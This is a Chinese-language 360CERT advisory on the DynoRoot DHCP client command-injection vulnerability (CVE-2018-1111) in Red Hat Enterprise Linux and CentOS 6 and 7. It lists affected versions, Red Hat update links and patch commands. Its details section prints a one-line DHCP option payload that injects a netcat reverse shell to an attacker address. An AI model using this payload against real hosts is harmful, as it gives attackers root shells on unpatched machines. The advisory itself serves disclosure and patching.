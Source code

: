 ```yaml
---
id: f075706d5a3c7efbb56efeead3d68a72
title: DynoRoot：Red Hat DHCP客户端命令执行漏洞(CVE-2018-1111)预警	
tags: 
  - 安全资讯
  - 360CERT
---
```


# DynoRoot：Red Hat DHCP客户端命令执行漏洞(CVE-2018-1111)预警	

0x00 漏洞概述
---------


近日，红帽官方发布了安全更新，修复了编号为CVE-2018-1111的远程代码执行漏洞，攻击者可以通过伪造DHCP服务器发送响应包，攻击红帽系统，获取root权限并执行任意命令。


目前相关利用代码已经公开，可用于本地网络攻击；360-CERT此漏洞进行了技术分析，认为该漏洞危害等级严重，建议使用相关用户尽快进行更新。


![alt](https://p403.ssl.qhimgs4.com/t01018a31fc9beb876e.png)


0x01 漏洞影响面
----------


#### 影响版本


* Red Hat Enterprise Linux Server 6
* Red Hat Enterprise Linux Server 7
* CentOS 6
* CentOS 7


#### 修复方案


* 受影响产品的更新




| 具体产品 | 更新软件包 | 更新链接 |
| --- | --- | --- |
| Red Hat Enterprise Linux 7 (z-stream) | dhclient | [RHSA-2018:1453](https://access.redhat.com/errata/RHSA-2018:1453) |
| Red Hat Enterprise Linux 7.4 Extended Update Support * | dhclient | [RHSA-2018:1455](https://access.redhat.com/errata/RHSA-2018:1455) |
| Red Hat Enterprise Linux 7.3 Extended Update Support * | dhclient | [RHSA-2018:1456](https://access.redhat.com/errata/RHSA-2018:1456) |
| Red Hat Enterprise Linux 7.2 Advanced Update Support, Telco Extended Update Support, and Update Services for SAP Solutions **,***,**** | dhclient | [RHSA-2018:1457](https://access.redhat.com/errata/RHSA-2018:1457) |
| Red Hat Enterprise Linux 6 (z-stream) | dhclient | [RHSA-2018:1454](https://access.redhat.com/errata/RHSA-2018:1454) |
| Red Hat Enterprise Linux 6.7 Extended Update Support * | dhclient | [RHSA-2018:1458](https://access.redhat.com/errata/RHSA-2018:1458) |
| Red Hat Enterprise Linux 6.6 Advanced Update Support and Telco Extended Update Support **,*** | dhclient | [RHSA-2018:1459](https://access.redhat.com/errata/RHSA-2018:1459) |
| Red Hat Enterprise Linux 6.5 Advanced Update Support ** | dhclient | [RHSA-2018:1460](https://access.redhat.com/errata/RHSA-2018:1460) |
| Red Hat Enterprise Linux 6.4 Advanced Update Support ** | dhclient | [RHSA-2018:1461](https://access.redhat.com/errata/RHSA-2018:1461) |


* 软件包更新



```
    #yum update dhclient 
    #rpm -qa --changelog dhclient | grep CVE-2018
        - Resolves: #1570898 - Fix CVE-2018-1111: Do not parse backslash as escape character

```
0x02 漏洞详情
---------


DHCP 是一个局域网的网络协议，主要用于内部网络动态IP地址分配。


Red Hat提供的DHCP客户端软件包dhclient的脚本为`/etc/NetworkManager/dispatcher.d/11-dhclient`（Red Hat Enterprise Linux 7）和`/etc/NetworkManager/dispatcher.d/10-dhclient`（Red Hat Enterprise Linux 6）；当NetworkManager组件从DHCP服务器收到DHCP响应时执行该脚本。


![alt](https://p403.ssl.qhimgs4.com/t013cd92966ddb3490b.jpeg)


使用单引号使参数值逃逸成功，导致了命令执行



```
--dhcp-option="252,x'&nc -e /bin/bash 10.1.1.1 1337 #"

```
0x03 时间线
--------


**2018-05-16** RedHat 官方发布更新公告


**2018-05-16** 360-CERT对漏洞进行评估，发布预警通告


0x04 参考链接
---------


1. <https://access.redhat.com/errata/RHSA-2018:1458>
2. <https://twitter.com/_fel1x/status/996388421273882626>
3. <https://dynoroot.ninja/>


